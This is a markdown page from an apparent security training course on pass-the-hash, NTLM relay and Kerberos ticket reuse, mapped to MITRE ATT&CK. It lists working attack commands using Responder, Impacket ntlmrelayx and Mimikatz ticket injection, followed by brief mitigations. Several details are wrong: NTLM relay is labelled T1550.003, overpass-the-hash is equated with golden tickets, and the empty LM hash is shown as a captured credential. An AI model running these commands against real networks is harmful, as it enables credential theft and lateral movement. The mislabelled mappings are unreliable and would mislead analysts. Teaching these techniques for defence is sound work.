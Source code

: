 ```yaml
---
layout: post
title: "6.6 Pass-the-Hash & Alternate Material"
date: 2025-06-14
permalink: /modules/6/pass-the-hash/
excerpt: >
  Examine NTLM relay, pass-the-hash (T1550.002), token reuse, and Kerberos ticket reuse. Extract NetNTLM hashes and map to ATT&CK Credential Access techniques.
header:
  overlay_image: /assets/images/pass-the-hash-banner.png
  overlay_color: "#2b2b2b"
  overlay_filter: "0.4"
---
```


> “Hashes are credentials too—capture, relay, and reuse to move laterally without cleartext passwords.”  
> — Windows Authentication Expert

## 1 • Technique Breakdown

| Sub-Technique                    | ATT&CK ID       | Description                                    |
|----------------------------------|-----------------|------------------------------------------------|
| Pass-the-Hash                    | T1550.002       | Leverage captured NTLM hash for authentication |
| NTLM Relay                       | T1550.003       | Relay NTLM auth to another service             |
| Overpass-the-Hash (Pass-the-Ticket) | T1550.003   | Golden ticket style Kerberos ticket creation   |

## 2 • Capturing NTLM Hashes

- **Artifact Sources:**  
  - SMB relay logs  
  - Responder/Impacket tool output  
- **Extraction Example (Responder):**  
```bash
  python3 Responder.py -I eth0
  grep -i "NTLMv2-SSP" /opt/Responder/logs/NTLMv2-SSP-Server.log
  ```

## 3 • Relaying & Ticket Reuse

- **NTLM Relay (Impacket):**  
```bash
  python3 ntlmrelayx.py -smb2support -t smb://<target>
 ``` 
- **Pass-the-Ticket (Mimikatz):**  
```powershell
  mimikatz # sekurlsa::kerberos
  mimikatz # kerberos::ptt /ticket:golden.kirbi
  ```

## 4 • Mapping to ATT&CK & Reporting

| Timestamp           | Technique ID      | Details                                  |
|---------------------|-------------------|------------------------------------------|
| 2025-06-14T11:30Z   | T1550.002         | NTLM hash `aad3b435b51404eeaad3b435b51404ee` captured |
| 2025-06-14T11:35Z   | T1550.003         | NTLM relay to \\DC01 via impacket logged  |

## 5 • Mitigation & Detection

- **SMB Signing:** enforce signing to prevent relay.  
- **Monitoring:** alert on anomalous NTLM authentications and ticket injections.  
- **Patch Kerberos:** disable legacy protocols and reset KRBTGT keys periodically.

---

<div class="post-resources container">
  <h3>Resources</h3>
  <ul>
    <li><a href="https://attack.mitre.org/techniques/T1550/002/" target="_blank">ATT&CK T1550.002 Pass-the-Hash</a></li>
    <li><a href="https://attack.mitre.org/techniques/T1550/003/" target="_blank">ATT&CK T1550.003 NTLM Relay</a></li>
    <li><a href="https://github.com/lgandx/Responder" target="_blank">Responder Tool</a></li>
  </ul>
</div>

<a href="{{ site.baseurl }}/modules/6/edr-evasion-lab/" class="next-link">6.7 Evasion vs EDR Lab →</a>